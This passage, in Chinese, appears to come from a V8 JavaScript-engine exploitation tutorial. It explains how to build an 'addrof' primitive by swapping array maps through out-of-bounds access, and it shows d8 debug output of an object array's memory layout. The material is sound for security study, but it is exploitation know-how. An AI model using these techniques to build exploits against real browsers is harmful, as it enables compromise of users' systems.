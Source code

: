 **ℹ️NOTE**: 深入分析的话，会发现在数组的创建过程中，这两个内存块是紧接在一起线性分配的，在数组大小选取的合适情况下，内存地址一定是相连的。

---

### addrof

map 中存放了关于对象类型的信息，例如原型，属性等。把浮点数数组的 map 替换成对象数组的，v8 解释器就会把它当做对象数组。利用这个特性，通过如下操作就可以读到对象的指针：

- 浮点数组 map 改成对象数组
- 对象存入数组的指定位置，存入的缓冲区的数据，实际上对象的指针
- 再把 map 恢复回去
- 把指针当做浮点数从数组读出

目前已经可以读、写浮点数组 map，只要再找到读取对象数组 map 的方法，addrof 就可以实现了。

观察下对象数组的内存布局，看看对象数组的越界访问能读到什么：

```bash
d8> obj = {}
{}
d8> let arr2 = [obj]
undefined
d8> %DebugPrint(arr2)
DebugPrint: 000003C00810B071: [JSArray]
 - map: 0x03c0082c3b31 <Map(PACKED_ELEMENTS)> [FastProperties]
 - prototype: 0x03c00828bebd <JSArray[0]>
 - elements: 0x03c00810b065 <FixedArray[1]> [PACKED_ELEMENTS]
 - length: 1
 - properties: 0x03c00800222d <FixedArray[0]>
 - All own properties (excluding elements): {
    000003C0080048F1: [String] in ReadOnlySpace: #length: 0x03c00820215d <AccessorInfo> (const accessor descriptor), location: descriptor
 }
 - elements: 0x03c00810b065 <FixedArray[1]> {
           0: 0x03c00810afad <Object map = 000003C0082C22D1>
 }
000003C0082C3B31: [Map]
 - type: JS_ARRAY_TYPE
 - instance size: 16
 - inobject properties: 0
 - elements kind: PACKED_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - back pointer: 0x03c0082c3b09 <Map(HOLEY_DOUBLE_ELEMENTS)>
 - prototype_validity cell: 0x03c008202405 <Cell value= 1>
 - instance descriptors #1: 0x03c00828c38d <DescriptorArray[1]>
 - transitions #1: 0x03c00828c409 <TransitionArray[4]>Transition array #1:
     0x03c008005229 <Symbol: (elements_transition_symbol)>: (transition to HOLEY_ELEMENTS) -> 0x03c0082c3b59 <Map(HOLEY_ELEMENTS)>

 - prototype: 0x03c00828bebd <JSArray[0]>
 - constructor: 0x03c00828bc4d <JSFunction Array (sfi = 000003C00820FE71)>
 - dependent code: 0x03c0080021b9 <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0

[{}]
```
